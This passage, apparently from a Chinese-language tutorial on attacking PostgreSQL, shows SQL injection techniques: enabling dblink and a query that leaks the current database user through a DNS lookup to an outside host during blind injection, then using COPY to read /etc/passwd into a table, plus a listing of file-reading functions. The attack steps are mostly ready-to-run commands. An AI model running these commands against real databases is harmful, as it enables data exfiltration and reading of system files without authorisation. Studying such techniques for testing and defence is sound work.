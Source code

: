 文档地址：http://www.postgresql.org/docs/8.2/static/server-programming.html   
  
## DNS 请求获取数据
同样的，PostgreSQL 可以通过 DNS Request 一样获取数据，在盲注的情况下。  
  
用到的一个扩展叫做 dblink，可以通过如下命令开启：   
  
```
CREATE EXTENSION dblink
```
  
接着运行如下语句，获取当前数据库用户名称：  
  
```
SELECT * FROM dblink('host='||(select user)||'.f27558c1f94c0595.xxxxx.xx user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);
```
  
![pic4](20161018_02_pic_004.jpg)    
  
远程获取到请求内容：   
  
![pic5](20161018_02_pic_005.png)    
  
## 读写文件
### 读
PostgreSQL 读取文件虽然有些蛋疼，但是还是可以读取的：   
  
```
CREATE TABLE temptable(t text);
COPY temptable FROM '/etc/passwd';
SELECT * FROM temptable limit 1 offset 0;
```
  
读取结束后：   
```
DROP TABLE temptable;
```
  
新版本则可以直接通过函数或者使用大对象操作接口来读取。  
  
```
 pg_catalog | pg_read_binary_file       | bytea            | text                                                                                                                                                                            
 pg_catalog | pg_read_binary_file       | bytea            | text, bigint, bigint                                                                                                                                                            
 pg_catalog | pg_read_binary_file       | bytea            | text, bigint, bigint, boolean                                                                                                                                                   
 pg_catalog | pg_read_file              | text             | text                                                                                                                                                                            
```